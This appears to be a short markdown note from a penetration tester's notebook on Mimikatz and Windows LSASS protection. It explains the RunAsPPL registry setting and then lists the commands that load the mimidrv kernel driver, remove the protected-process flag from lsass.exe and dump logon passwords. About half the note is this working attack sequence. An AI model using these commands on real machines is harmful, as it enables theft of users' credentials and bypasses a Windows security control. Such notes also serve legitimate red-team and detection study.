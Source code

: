 #mimikatz 
[LSASS](Credentials.md#LSASS)
- `lsass.exe` is a protected process. 
### Disabling lsass protection
- Microsoft made lsass.exe a protected process so that it can't be used to dump credentials.
- The lsass protection depends on the registry key `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`. If the `RunASPPL` is set to `1`, lsass protection is enabled.
- Mimikatz can also be used to disable lsass protection. Requires mimidrv to access kernel level access
```powershell
# load mimidrv
!+
# remote protection
!processprotect /process:lsass.exe /remove
# dump credentials
sekurlsa::logonpasswords
```